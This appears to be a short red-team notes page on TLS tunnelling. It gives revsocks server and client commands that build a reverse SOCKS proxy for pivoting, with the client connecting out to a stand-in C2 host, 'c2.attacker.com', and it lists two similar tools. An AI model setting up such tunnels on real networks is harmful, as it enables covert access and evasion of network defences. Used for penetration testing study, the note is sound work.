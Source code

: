 ```yaml
---
title: TLS Tunnel
---
```


[[notes/tunneling/index]] over the [[notes/network/tls]] protocol.

Start a [[notes/tools/revsocks]] server on Linux.

~~~ bash
sudo ./revsocks -listen :443 -socks 127.0.0.1:1080 -pass 'passw0rd'
~~~

Connect with the client from Linux or Windows to establish a reverse [[notes/pivoting/socks-proxy]].

~~~ bash
./revsocks -recn 0 -rect 60 -connect c2.attacker.com:443 -pass 'passw0rd'
~~~

Untested tools:

- [ligolo-ng](https://github.com/nicocha30/ligolo-ng), reverse tunnel with TUN device on server while client doesn't need admin privileges, supports Windows
- [ReverseSocks5](https://github.com/Acebond/ReverseSocks5), reverse SOCKS5 proxy over TLS in Go
